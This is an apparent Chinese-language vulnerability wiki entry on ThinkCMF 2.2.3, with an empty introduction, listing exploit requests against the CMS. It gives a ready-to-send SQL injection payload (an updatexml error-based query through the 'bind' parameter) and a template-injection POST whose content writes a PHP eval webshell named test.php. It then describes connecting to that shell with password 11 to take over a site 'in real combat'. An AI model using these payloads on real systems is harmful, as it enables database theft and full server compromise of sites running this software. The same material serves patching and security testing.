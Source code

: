 ThinkCMF 2.2.3 漏洞合集
=======================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF 2.x

三、复现过程
------------

### 0x01 前台用户文章编辑提交存在注入

#### 0x01.1 漏洞演示

    前台的文章编辑中操作框架注入，所以可以直接sql注入
    url:http://thinkcmf.test/index.php?g=Portal&m=Article&a=edit_post
    post:
    term:123
    post[post_title]:123
    post[post_title]:aaa
    post_title:123
    post[id][0]:bind
    post[id][1]:0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId26.png)

#### 0x01.2 漏洞原理

文件：ThinkCMFX\_2.2.3\\application\\Portal\\Controller\\ArticleController.class.php
方法：public function edit\_post(

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId28.jpg)

这里不多讲，因为没得意义。详情请看先知的历史tp漏洞，谢谢：)

#### 0x02 前台模版注入漏洞-可getshell两处

##### 0x02.1 Comment类模版引擎注入演示

    url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
    post:
    templateFile=/../public/index
    prefix=''
    content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php>

发送之后页面http状态会为200，这样就表示成功了 简单讲解一下：content
我输入了php代码所以他会在本地跟路径创建一个一句话木马test.php
所以实战过程中。

连接马子：<http://xxxxx.com/test.php> 密码:11 即可getshell
